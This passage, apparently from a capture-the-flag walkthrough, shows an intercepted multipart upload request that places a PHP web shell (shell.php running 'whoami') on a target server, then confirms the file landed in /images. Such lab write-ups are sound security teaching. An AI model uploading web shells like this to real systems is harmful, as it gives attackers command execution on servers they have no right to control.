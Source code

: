 ```
Connection: close

------WebKitFormBoundaryrmynB2CmGO6vwFpO
Content-Disposition: form-data; name="photo"; filename="shell.php"
Content-Type: application/octet-stream

<?php echo exec("whoami"); ?>

------WebKitFormBoundaryrmynB2CmGO6vwFpO
Content-Disposition: form-data; name="add"
```

![love_burp.png](../assets/love_assets/love_burp.png)

We can send that over and confirm our shell.php file was added to `/images`

![love_shell_image.php](../assets/love_assets/love_shell_image.png)

